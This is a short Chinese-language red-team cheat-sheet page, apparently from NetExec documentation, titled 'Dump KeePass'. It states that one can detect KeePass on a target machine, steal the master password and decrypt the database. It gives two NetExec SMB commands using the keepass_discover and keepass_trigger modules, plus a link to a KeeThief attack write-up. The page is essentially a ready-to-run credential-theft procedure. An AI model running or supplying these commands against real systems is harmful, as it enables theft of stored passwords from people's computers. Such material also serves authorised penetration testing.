 # 导出 KeePass

你可以检查目标计算机上是否安装了 KeePass，然后窃取主密码并解密数据库！

```
$ NetExec smb <ip> -u user -p pass -M keepass_discover
$ NetExec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

{% embed url="https://web.archive.org/web/20211017083926/http://www.harmj0y.net:80/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2" %}
